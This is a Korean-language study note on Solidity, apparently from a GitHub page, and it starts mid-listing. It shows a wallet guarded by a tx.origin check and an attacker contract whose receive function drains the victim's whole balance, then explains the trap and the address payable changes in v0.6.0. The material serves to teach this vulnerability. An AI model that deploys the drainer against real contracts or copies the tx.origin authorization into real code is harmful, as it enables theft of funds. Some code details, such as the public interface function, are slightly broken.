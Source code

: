 ```solidity
        owner = msg.sender;
    } //생성자 추가됨

    function transferTo(address payable dest, uint amount) public {
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}

```
```solidity
pragma solidity ^0.6.0;

interface TxUserWallet {
    function transferTo(address payable dest, uint amount) public;
}

contract TxAttackWallet {
    address payable owner;

    constructor() public {
        owner = msg.sender;
    } //생성자 추가됨

    receive() external payable {
        TxUserWallet(msg.sender).transferTo(owner, msg.sender.balance);
    } //receive 함수로 변경
}
```
> 공격자는 Ether 전송 시, 공격자 계정으로 전송되도록 함정을 만들 수 있음.
만약 권한검사를 위해 msg.sender를 체크했다면, 소유자 주소 대신 공격자의 wallet 주소를 얻게 될 것임. 또한 `tx.origin`을 체크해도 이것은 트랜잭션을 시작한 original address를 얻게 되며 그것은 공격자의 walltet이 될 것임. 따라서 공격자는 즉시 모든 Ether를 탈취할 수 있음.   

> v0.6.0 버전 이후 `address payable` 추가   
돈을 보낼 수 있는 주소타입 `address payable` 새로 추가. 기존 주소 타입에서는 돈을 전송하는 함수들을 삭제
```solidity
address payable to = 0x...; // 돈을 받을 주소
to.send(1 ether); // 나(트랜잭션을 실행한 사람)의 돈 1이더를 to 에게 보냄
to.transfer(1 ether); // 위와 같은 기능

address to2 = 0x...;
to2.send(1 ether);     // error
to2.transfer(1 ether); // error

```
 Q. 만약 `address`타입을 `address payable` 타입으로 변환하고싶으면?
 `uint160` 타입 변환 후 `address payble` 타입으로 변환
 ```solidity
 (0x...).transfer(1 ether); // 주소 상수 뒤에 바로 사용 OK
address to = 0x...;
address(to).transfer(1 ether); // 에러!
address(uint160(to)).transfer(1 ether); // 두번 변환은 OK
address payable x = address(uint160(to)); // 저장할 때도 두번 변환해야 OK
 
 ```
 ++ `msg.sender`는 자동으로 `address payble` 타입을 리턴
 ++ `msg.value`는 `payable` 함수 혹은 `internal 함수에서만 호출 가능. 따라서 다음 코드처럼 msg.value 값을 리턴하는 internal 함수를 만들어서 사용허는 것이 좋음
 ```solidity
 function msgValue() internal returns (uint256) {
     return msg.value;
 }
 ```
